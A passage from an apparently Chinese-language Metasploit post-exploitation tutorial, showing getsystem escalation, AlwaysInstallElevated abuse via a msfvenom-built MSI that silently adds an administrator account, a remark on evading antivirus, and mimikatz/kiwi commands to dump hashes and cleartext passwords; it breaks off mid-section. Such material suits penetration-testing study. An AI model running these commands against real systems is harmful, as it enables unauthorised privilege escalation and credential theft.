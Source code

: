 screengrab  #截屏
</code></pre>


#### sniffer抓包

---


#### 网络摄像头

---


> 
<h3>2.6、提权</h3>
<h4>getsystem提权</h4>
<pre><code>getuid      #查看已获得权限
getsystem   #提权
</code></pre>
<hr/>
<h4>利用AlwaysInstallElevated提权</h4>
AlwaysInstallElevated是一个策略设置
微软允许非授权用户以SYSTEM权限运行安装文件(MSI)
前提：用户启用此策略，就可利用恶意的MSI文件进行管理员权限的提升
<pre><code>查看AlwaysInstallElevated是否被定义
前提条件，需要有两个注册表的键值为1，在cmdshell下查看是否被定义
reg query HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated
reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated

如果在组策略里未定义，则会出现“错误: 系统找不到指定的注册表项或值”的提示
</code></pre>
开启的方法：<br/> 1、打开组策略编辑器（运行框输入gpedit.msc）<br/> 2、组策略---计算机配置---管理模版---Windows组件---Windows Installer---永远以高特权进行安装：选择启用<br/> 3、组策略---用户配置---管理模版---Windows组件---Windows Installer---永远以高特权进行安装：选择启用
（设置完成后对应注册表值会设为1，即开启AlwaysInstallElevated）

<pre><code>生成MSI安装文件
（msf生成的msi文件，会被杀毒软件拦截，做好免杀）

利用msfvenom命令生成一个在目标机上增加管理员用户的MSI安装文件，密码设置为强密码，否则会报错
msfvenom -p windows/adduser USER=msi PASS=Abc123@@ -f msi -o msi.msi
</code></pre>
<pre><code>上传并执行MSI文件

upload msi.msi c:\\Users\\test # 部分目录由于权限原因可能上传失败
msiexec /quiet /qn /i msi.msi  # /quiet=安装过程中禁止向用户发送消息 /qn=不使用图形界面 /i=安装程序
net localgroup administrators

net localgroup administrators
（执行成功后查看管理员组发现用户已经添加成功）</code></pre>


#### 利用AlwaysInstallElevated提权

> 
<h3>2.7、窃取hash及密码</h3>
<h4>mimikatz</h4>
<pre><code>load mimikatz    #加载mimikatz模块
msv       #获取用户和hash值 
kerberos  #获取内存中的明文密码信息
wdigest   #获取内存中的明文密码信息
mimikatz_command -f a::    #需要以错误的模块来让正确的模块显示
mimikatz_command -f sekurlsa::searchPasswords  #获取用户密码
mimikatz_command -f samdump::hashes            #执行用户hash
</code></pre>
<hr/>
<h4>kiwi</h4>
kiwi是利用的mimikatz扩展，运行需要SYSTEM权限
<pre><code>load kiwi
